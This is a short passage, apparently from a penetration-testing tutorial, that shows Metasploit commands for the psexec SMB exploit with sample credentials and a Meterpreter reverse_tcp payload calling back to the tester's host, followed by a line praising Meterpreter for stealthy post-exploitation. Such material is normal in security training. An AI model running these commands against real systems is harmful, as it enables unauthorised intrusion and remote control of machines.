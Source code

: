 Example:
```bash
use exploit/windows/smb/psexec
set RHOSTS <target>
set SMBUser ballen
set SMBPass Password1
set payload windows/meterpreter/reverse_tcp
set LHOST <your_ip>
run
```

---

Mastering **Meterpreter** empowers you to carry out complex post-exploitation tasks with stealth and flexibility, making it one of the most critical components of a successful penetration test.

